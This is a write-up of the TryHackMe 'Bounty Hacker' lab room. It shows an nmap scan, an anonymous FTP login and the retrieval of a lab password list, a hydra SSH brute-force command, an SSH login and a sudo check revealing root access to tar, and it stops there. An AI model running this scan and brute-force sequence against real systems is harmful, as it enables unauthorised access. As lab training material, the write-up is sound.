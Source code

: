 # THM: Bounty Hacker

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/bounty_hacker/bounty_hacker.jpeg" alt="Bounty Hacker" width="90"/> |
| Room | Bounty Hacker |
| URL | https://tryhackme.com/room/cowboyhacker |
| Difficulty | Easy |

## Concepts/Tools Used

- [ftp](../../tools/ftp.md)
- [hydra](../../tools/hydra.md)

## Room Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-18 18:44 BST
Nmap scan report for target.thm (10.10.32.110)
Host is up (0.00023s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.54.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:A9:BD:3A:F3:53 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.13 seconds
```

## Who wrote the task list?

The output lets me know that the ftp server allows anonymous logins. That is where I will start. I log into the ftp server with the command:

```bash
$ ftp target.thm
Connected to target.thm.
220 (vsFTPd 3.0.3)
Name (target.thm:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now that I am on the ftp server I will take a look and see what files are available with the following command:

```bash
ftp> ls -lha
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

There are two files. I'll output each of them to see their contents. Here is the output of locks.txt:

```bash
ftp> get locks.txt -
remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
226 Transfer complete.
418 bytes received in 0.05 secs (8.6003 kB/s)
```

Here are the contents of task.txt:

```bash
ftp> get task.txt -
remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-REDACTED
226 Transfer complete.
68 bytes received in 0.00 secs (327.1244 kB/s)
```

The output of task.txt tells me the user that wrote the file. I note this as a possible username for future tasks. The locks.txt file seems to be a password list.

I download the locks.txt file to my attack box and call it passwords.txt. The command I ran is the following:

```bash
ftp> get locks.txt passwords.txt
local: passwords.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (6.0399 MB/s)
```

I exit out of ftp by typing the following:

```bash
ftp> quit
221 Goodbye.
```

I don't have any other files on the ftp server so I'll move on.

## What service can you brute force with the text file found and what is the users password?

From here, I only have the ssh and http services on the machine to check. Since I got a username and a wordlist, I'll try to brute force ssh.

I am going to use hydra to try brute forcing the password of the username I found in task.txt. Here is the command that I used:

```bash
hydra -l REDACTED -P passwords.txt target.thm ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-18 19:00:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target.thm:22/
[22][ssh] host: target.thm   login: REDACTED   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-18 19:00:18
```

It turns out that we can brute force the ssh service and hydra has given me the password.

## Getting a Foothold

I ssh into the box user the username and password provided by hydra. Here is the command:

```bash
$ ssh REDACTED@target.thm
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). Running sudo -l did yield some interesting results:

```bash
sudo -l
[sudo] password for REDACTED: 
Matching Defaults entries for REDACTED on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User REDACTED may run the following commands on bountyhacker:
    (root) /bin/tar
```
